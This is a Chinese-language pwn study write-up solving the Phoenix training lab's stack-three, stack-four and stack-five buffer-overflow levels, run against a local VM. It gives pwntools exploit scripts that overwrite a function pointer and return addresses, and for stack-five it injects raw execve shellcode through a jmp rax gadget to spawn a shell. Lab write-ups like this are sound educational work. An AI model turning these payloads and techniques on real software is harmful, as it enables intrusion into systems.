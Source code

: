 # [pwn笔记2]stack-three, stack-four, stack-five(Phoenix)

最近又是数模又是开学的，很难受，还是看看远方的~~水~~入门题吧。没有动态基址，还是比较简单的。

（写这段的时候还没想到接下来还有概率论考试，还打了场ctf校赛，所以。。。）

## stack-three

覆盖一个即将被调用的函数指针的数据，跟前面差不多。

```python
from pwn import *
shell = ssh("user", "localhost", password="user", port=2222)

s = b"a" * 0x40 + p64(0x40069d)
sh = shell.run(b"/opt/phoenix/amd64/stack-three")
sh.recvlines(1)
sh.sendline(s)
print(sh.recvlines(2))

```

## stack-four

覆盖栈上的返回地址。

![image-20230225202058128](https://s2.loli.net/2023/02/25/YB5ux4CUSAeowPv.png)

`0x648-0x5f0=88`

```python
from pwn import *
shell = ssh("user", "localhost", password="user", port=2222)

s = b"a" * 88 + p64(0x40061d)
sh = shell.run(b"/opt/phoenix/amd64/stack-four")
sh.recvlines(1)
sh.sendline(s)
print(sh.recvlines(2))
```

## stack-five

需要拿到shell。由于栈是可执行的，可以利用gets来把shellcode读进来，覆盖返回地址来执行shellcode。

这个过程看起来非常完美，可是不知道为什么返回到栈上执行两步就会段错误。关掉了aslr，尝试了附加调试和取消gdb环境变量，以消除栈地址的变化，都没有进展。

后来看到了另一个方法：

![image-20230321141557023](https://s2.loli.net/2023/03/21/unLGRcti7zICfdl.png)

调用gets之前，s被放入了rax中。所以直接把shellcode放到最前面就会被rax指向。

我们可以用rop，找到一段`jmp rax`，返回到那里，然后下一步就会跳到shellcode了。

```python
from pwn import *
shell = ssh("user", "localhost", password="user", port=2222)

total = 136
sc = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
jmp_rax = p64(0x400481)
s = sc+b"a"*(total-len(sc))+jmp_rax

sh = shell.run(b"/opt/phoenix/amd64/stack-five")
sh.recvlines(1)
sh.sendline(s)
sh.interactive()
```

还有一件事，gef可以用以下命令调整context里stack显示的行数

```
gef config context.nb_lines_stack 20
```

这样就不用在虚拟机里再装个peda了（这两个共存很卡）。
